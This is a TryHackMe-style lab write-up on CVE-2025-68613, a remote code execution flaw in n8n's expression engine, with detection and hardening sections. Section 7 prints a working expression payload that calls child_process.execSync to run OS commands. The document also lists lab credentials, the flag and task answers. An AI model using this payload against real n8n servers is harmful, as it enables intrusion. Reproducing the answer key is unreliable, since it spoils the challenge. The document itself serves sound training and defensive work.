

# n8n: CVE-2025-68613 · Technical Guide & Room Documentation

---

## 1. Metadata & Room Header

- **Room Title:** n8n: CVE-2025-68613
- **Room Slug:** `n8ncve202568613`
- **Learning Path:** Junior Penetration Tester (Module 09: Vulnerability Knowledge)
- **Module Order:** Room 05 of 09
- **Difficulty:** Easy
- **Assessment Type:** Hands-on Walkthrough & CVE Analysis
- **Tags:** `CVE-2025-68613`, `n8n`, `RCE`, `Node.js`, `Expression Injection`, `child_process`, `Workflow Automation`

---

## 2. Room Overview & Executive Summary

This room presents an in-depth technical analysis of **CVE-2025-68613**, a critical authenticated Remote Code Execution (RCE) vulnerability affecting the popular open-source workflow automation platform **n8n** (versions `0.211.0` through `1.120.3`), carrying a CVSS score of **9.9 (Critical)**. The platform provides an expression engine allowing users to evaluate dynamic JavaScript values within double curly braces `{{ }}`. Due to improper context isolation within the execution environment, authenticated users can traverse from the expression scope back to the Node.js global runtime (`this.process.mainModule.require`), import the native `child_process` module, and execute arbitrary operating system commands, successfully retrieving the engagement flag `THM{n8n_exposed_workflow}`.

---

## 3. Architecture & Attack Surface Analysis



---

## 4. Pedagogical Objectives & Skills Matrix

| Target Competency | Technical Description | Verification & Measurement |
| :--- | :--- | :--- |
| **Workflow Architecture Analysis** | Understand workflow automation pipelines and evaluate node execution models. | Constructed complete working workflow. |
| **Node.js Context Escalation** | Map JavaScript object reachability from `this` to `process.mainModule.require`. | Identified `child_process` module. |
| **Expression Injection Exploitation** | Construct an immediately invoked function expression (IIFE) to execute system commands. | Executed `execSync()` payload. |
| **Flag Recovery & Proof of Work** | Traverse filesystem paths to extract confidential server artifacts. | Retrieved `THM{n8n_exposed_workflow}`. |
| **Detection Engineering** | Author Sigma rules and configure reverse proxy request body logging for API routes. | Documented Nginx Lua & Sigma rules. |

---

## 5. Comprehensive Task Breakdown

| Task # | Task Title | Primary Objective / Target Question | Verified Answer Value |
| :---: | :--- | :--- | :---: |
| **Task 01** | Introduction | Let’s dive into the technical details. | `No answer needed` |
| **Task 02** | Technical Background | In this exploit, what is the name of the module that allowed us to execute system commands? | `child_process` |
| **Task 03** | Exploitation | What is the flag? | `THM{n8n_exposed_workflow}` |
| **Task 04** | Detection | Depending on your environment, ensure that your security solutions are detecting threats... | `No answer needed` |
| **Task 05** | Conclusion | If you enjoyed this room, consider checking other rooms in the Recent Threats module. | `No answer needed` |

---

## 6. Methodology & Reconnaissance Strategy

1. **Service Verification:** Identifying the n8n instance listening on default port `5678` and cataloging the deployment version.
2. **Privilege Scoping:** Authenticating to the administrative web UI with target credentials to confirm workflow creation permissions.
3. **Expression Probe:** Testing baseline JavaScript arithmetic expressions (`{{ 7 * 7 }}`) to confirm active dynamic evaluation.
4. **Context Breakout:** Constructing an anonymous closure referencing `this.process` to verify global runtime reachability.
5. **Payload Weaponization:** Importing `child_process` to read `/flag.txt` and extract verified evidence.

---

## 7. Deep-Dive Practical Walkthrough

### 1. Authenticating & Canvas Setup
- Navigate to `http://10.10.14.50:5678`.
- Sign in: `tryhackme@thm.local` / `Try12345!`.
- Select **"Start from scratch"**.
- Add the initial trigger: **Manual Trigger**.
- Add and link: **Edit Fields (Set)**.

### 2. Payload Configuration & Command Execution
Within the **Edit Fields** node:
1. Select **Add Field**.
2. Set parameter name: `exploit`.
3. Switch input mode to **Expression**, and provide the breakout payload:
```javascript
{{ (function(){ 
    return this.process.mainModule.require('child_process')
               .execSync('cat /flag.txt')
               .toString(); 
})() }}
```
4. Click **"Execute step"** (or **Test step**).
5. The output table displays the recovered flag: `THM{n8n_exposed_workflow}`.

---

## 8. Vulnerability Analysis & Exploitation Mechanics

### Root Cause: CVE-2025-68613 (CWE-94)
The expression evaluator executes within the main Node.js process heap. Even though direct calls to `require` were not exposed in local scope variables, the global execution scope (`this`) retained references to `process`, whose `mainModule` property exposed the root module loader, enabling arbitrary native library imports.

---

## 9. Detection, Logging & Forensic Artifacts

- **Reverse Proxy Body Logging (Nginx):**
  Captures the expression payload targeting `/rest/workflows`:
  ```text
  10.10.14.50 - tryhackme [19/Nov/2026:12:29:40] "POST /rest/workflows HTTP/1.1" 200 ... "child_process"
  ```
- **EDR & Process Creation Telemetry:**
  Identifies suspicious child processes (`/bin/sh`, `cat`) spawned by parent `/usr/local/bin/node`.

---

## 10. Hardening, Mitigation & Remediation Guide

1. **Immediate Upgrades:** Upgrade n8n to `1.120.4`, `1.121.1`, `1.122.0`, or later releases that enforce complete expression sandboxing.
2. **Enforce RBAC:** Restrict workflow authoring and editing permissions strictly to trusted engineers.
3. **Container Sandboxing:** Run n8n within unprivileged containers (`user: "1000:1000"`), enable read-only root filesystems, and never mount `/var/run/docker.sock`.

---

## 11. Defense-in-Depth & Enterprise Architecture

- **External Secret Management:** Integrate HashiCorp Vault or AWS Secrets Manager rather than storing plaintext API credentials in local workflow storage.
- **Strict Egress Filtering:** Restrict automation instances from establishing arbitrary outbound network connections to mitigate data exfiltration and reverse shells.

---

## 12. Tool Comparison & Quick Reference

| Component / Utility | Role in Scenario | Security Implication |
| :--- | :--- | :--- |
| **n8n** | Target workflow engine | Core application vulnerable to CVE-2025-68613 |
| **child_process** | Native Node.js module | Vector enabling operating system command execution |
| **Sigma Rule** | Generic SIEM detection format | Detects expression payload strings in web access logs |
| **Nginx Lua** | Reverse proxy engine | Provides request body logging capability for API routes |

---

## 13. Common Pitfalls & Operational Troubleshooting

1. **Omitting the IIFE Invocation `()`:** Failing to self-invoke the function prevents returning the computed command output.
2. **Executing Blocking Commands:** Interactive commands executed via `execSync` block the Node.js event loop and cause the UI to become unresponsive.
3. **Omitting `.toString()`:** `execSync` returns a raw buffer; calling `.toString()` ensures the string result is properly serialized in the JSON output.

---

## 14. References & Standards

- Official TryHackMe Room: [https://tryhackme.com/room/n8ncve202568613](https://tryhackme.com/room/n8ncve202568613)
- MITRE CVE Record: [CVE-2025-68613](https://cve.mitre.org/)
- Node.js Documentation: [child_process Module](https://nodejs.org/api/child_process.html)
- MITRE CWE-94: [Code Injection](https://cwe.mitre.org/data/definitions/94.html)
